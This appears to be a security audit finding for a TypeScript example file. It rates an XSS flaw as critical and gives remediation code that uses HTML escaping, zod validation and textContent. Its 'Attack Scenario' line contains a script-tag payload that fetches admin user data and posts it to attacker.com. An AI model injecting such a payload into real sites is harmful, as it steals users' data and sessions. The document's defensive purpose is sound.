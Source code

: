 ### 🔴 CRITICAL Risk Score: 9/10 | Threat: Data Confidentiality
### Issue: Cross-Site Scripting (XSS) via Direct HTML Injection
**Component:** `agents/typescript/examples/insecure_example.ts`  
**Lines 68, 72, 78:** Direct HTML content insertion without encoding  
**Detection Pattern:** String concatenation for HTML without escaping  
**Business Impact:** Account takeover, session hijacking, data theft  
**Attack Scenario:** User input `<script>fetch('/admin/users').then(r=>r.json()).then(d=>fetch('http://attacker.com',{method:'POST',body:JSON.stringify(d)}))</script>` steals data  
**Fix:**
```typescript
import DOMPurify from 'dompurify';
import { z } from 'zod';

const SafeContentSchema = z.string().max(10000);

const escapeHtml = (unsafe: string): string => {
  return unsafe
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#039;");
};

const renderUserContent = (content: string): string => {
  const validatedContent = SafeContentSchema.parse(content);
  const escapedContent = escapeHtml(validatedContent);
  return `<div>${escapedContent}</div>`;
};

const updateDOM = (userInput: string): void => {
  const validatedInput = SafeContentSchema.parse(userInput);
  const sanitized = DOMPurify.sanitize(validatedInput);
  
  const element = document.getElementById('content');
  if (element) {
    element.textContent = sanitized; // Use textContent, not innerHTML
  }
};

const createUserProfile = (name: string, bio: string): HTMLElement => {
  const validatedName = z.string().min(1).max(100).parse(name);
  const validatedBio = z.string().max(500).parse(bio);
  
  const element = document.createElement('div');
  
  const nameElement = document.createElement('h1');
  nameElement.textContent = validatedName;
  
  const bioElement = document.createElement('p');
  bioElement.textContent = validatedBio;
  
  element.appendChild(nameElement);
  element.appendChild(bioElement);
  
  return element;
};
```
**Category:** XSS Prevention  
**Remediation Timeline:** Immediate (< 24 hours)  
**Testing:** Test with script tags, event handlers, data URLs